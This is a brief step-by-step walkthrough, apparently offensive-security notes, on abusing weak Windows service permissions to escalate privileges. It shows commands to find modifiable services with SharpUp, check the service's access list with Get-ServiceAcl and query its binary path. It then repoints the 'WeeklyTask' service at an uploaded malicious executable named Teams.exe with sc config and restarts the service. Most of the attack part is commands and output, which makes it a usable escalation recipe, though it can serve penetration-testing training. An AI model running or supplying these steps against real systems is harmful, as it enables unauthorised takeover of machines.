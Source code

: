 - Unquoted Service Paths

- Weak Service Permissions

### Step 1: Identify Modifiable Services:<br>

  `C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices`

### Step 2: Check Service Permissions:<br>
  `powershell-import C:\Tools\Get-ServiceAcl.ps1`
  `powershell Get-ServiceAcl -Name WeeklyTask | select -expand Access`

"
ServiceRights     : ChangeConfig, Start, Stop
AccessControlType : AccessAllowed
IdentityReference : NT AUTHORITY\Authenticated Users
IsInherited       : False
InheritanceFlags  : None
PropagationFlags  : None
"

### Step 3: Validate Current Binary Path:
  `sc qc WeeklyTask`

"
BINARY_PATH_NAME   : "C:\Program Files\Services\Update.exe"
"
We have successfully displayed the current path of the WeeklyTask service.

### Step 4: Upload Malicious Payload:
  Next, we upload a malicious payload to the system that we will configure the service to execute. We’ll place our payload in a temporary directory.

### Step 5: Change the Service's Binary Path
  Now that we have our payload uploaded, we can change the service's binary path to point to our malicious executable.

`sc config WeeklyTask binPath= C:\Temp\Teams.exe`

### Step 6: Stop and Start the Service
`run sc stop WeeklyTask`
`run sc start WeeklyTask`
